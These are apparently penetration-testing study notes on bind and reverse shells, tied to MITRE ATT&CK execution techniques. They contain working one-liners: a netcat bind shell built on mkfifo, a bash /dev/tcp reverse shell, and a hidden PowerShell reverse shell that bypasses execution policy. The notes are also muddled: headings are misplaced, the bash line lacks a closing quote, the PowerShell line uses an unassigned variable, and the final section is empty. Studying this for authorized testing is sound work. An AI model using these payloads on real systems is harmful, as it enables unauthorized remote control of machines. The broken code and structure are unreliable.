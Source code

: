 
A **command language interpreter** is a program working to interpret the instructions provided by the user and issue the tasks to the operating system for processing. Many different command language interpreters can be used, some of which are also called **shell scripting languages** or **Command and Scripting interpreters** as defined in the [Execution techniques](https://attack.mitre.org/techniques/T1059/) of the **MITRE ATT&CK Matrix**.

We can test what type of shell we are using. For example, the sign `$` is used in Bash, Ksh, POSIX, and many other shell languages to mark the start of the shell prompt. Some commands, like `ps` or `env`, show different outputs in different shells.

In many cases, we will be working to establish a shell on a system on a local or remote network. This is typically done by using a **Bind** &/or **Reverse** shell. With a bind shell, the target system has a listener started and awaits a connection from a attackers box. On the server-side, we will need to specify the directory, shell, listener, work with some pipelines, and input & output redirection to ensure a shell to the system gets served when the client attempts to connect.

---

# Bind Shells

For the **bind shells**, on the server-side, we will need to specify the **directory**, **shell**, **listener**, work with some pipelines, and input & output redirection to ensure a shell to the system gets served when the client attempts to connect. 

## Reverse Shell Command 

Here are two examples and the connection for Linux:
```console
victim@target$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <TARGET> <PORT> > /tmp/f
victim@target$ bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

For Windows:
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Netcat connection 

```console
zero@pio$ nc -nv <TARGET> <PORT>
```

---

# Reverse shell
